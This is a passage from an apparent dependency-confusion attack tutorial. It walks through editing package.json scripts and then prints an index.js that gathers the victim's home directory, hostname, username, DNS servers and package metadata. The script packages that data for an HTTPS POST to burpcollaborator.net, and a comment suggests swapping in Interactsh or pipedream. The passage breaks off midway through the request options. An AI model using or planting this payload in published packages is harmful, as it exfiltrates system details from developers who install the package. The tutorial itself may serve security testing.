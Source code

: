 * After successful creation of the **package.json** file , we need to edit the created file to execute our own **scripts** and command.

<p align="center"><strong>vi package.json</strong></p>

<p align="center">
  <img src="/images/dependency/new-6.png">
</p>

* Now create the **index.js** file as shown below.

```javascript
//author:- whitehacker003@protonmail.com
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "burpcollaborator.net", //replace burpcollaborator.net with Interactsh or pipedream
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
```
